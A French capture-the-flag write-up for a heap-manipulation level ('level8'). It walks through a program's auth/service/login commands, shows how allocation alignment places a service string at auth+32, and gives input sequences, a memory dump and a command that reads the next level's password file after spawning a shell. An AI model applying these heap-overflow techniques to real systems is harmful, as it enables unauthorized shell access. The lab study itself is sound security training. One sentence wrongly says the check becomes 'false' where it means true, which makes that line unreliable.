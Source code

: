 # level8 - Heap Memory Manipulation

## Analyse du Programme

**Structure**
- Boucle principale avec `fgets(buf, 128, stdin)`
- Commandes disponibles: `auth`, `reset`, `service`, `login`
- Vérification critique: `auth[32] != 0` pour `login`

**Comportement Mémoire**
- `auth`: alloue 4 bytes à `0x804a008`
- `service`: utilise `strdup` sur `buf+7`
- Chaque allocation décale de 16 bytes
- Headers malloc entre les blocs

## Exploitation

**Étapes**
1. `auth`: initialise le pointeur auth
2. Premier `serviceAAAA`: écrit à `0x804a018`
3. Second `serviceAAAA`: écrit à `0x804a028`
4. `login`: vérifie `auth` qui pointe maintenant vers nos "AAAA"

**Séquence d'Exploitation**
```bash
auth 
serviceAAAA
serviceAAAA
login
```

Cette exploitation fonctionne car:
- Le second bloc "AAAA" est placé à `auth + 32`
- La condition `auth != 0` devient vraie
- Le programme exécute `system("/bin/sh")`

**Solution supplementaire**
```
auth aaaa                   // Les 'a' sont presents a but illustratif
servicebbbbbbbbbbbbbbbb     // 16 * 'b'
login
```

Apercu de la memoire:
```
0x804a008:      0x61616161      0x0000000a      0x00000000      0x00000019
0x804a018:      0x62626262      0x62626262      0x62626262      0x62626262
0x804a028:      0x0000000a      0x00020fd9      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
```

Sachant que `auth` fait un `malloc` de 4 qui sera aligne a 16 et que la prochaine allocation se fera a la suite, nous en deduisons que 16 octets suffiront pour atteindre auth[32], ainsi, la condition `auth[32] != 0` sera fausse.

**Obtention du Flag**
```bash
cat /home/user/level9/.pass
```
